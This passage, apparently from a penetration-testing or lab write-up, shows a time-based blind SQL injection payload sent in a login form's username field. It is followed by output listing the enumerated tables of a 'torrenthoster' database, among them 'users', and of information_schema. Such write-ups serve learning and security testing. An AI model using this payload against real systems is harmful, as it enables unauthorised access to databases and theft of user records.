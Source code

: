     Payload: username=pwnd' AND 5766=BENCHMARK(5000000,MD5(0x69424279))-- wnNK&password=pwnd
{% endhighlight %}

Importantly I get the dB details:

{% highlight plaintext %}
Database: torrenthoster
[8 tables]
+---------------------------------------+
| ban                                   |
| categories                            |
| comments                              |
| log                                   |
| namemap                               |
| news                                  |
| subcategories                         |
| users                                 |
+---------------------------------------+
Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
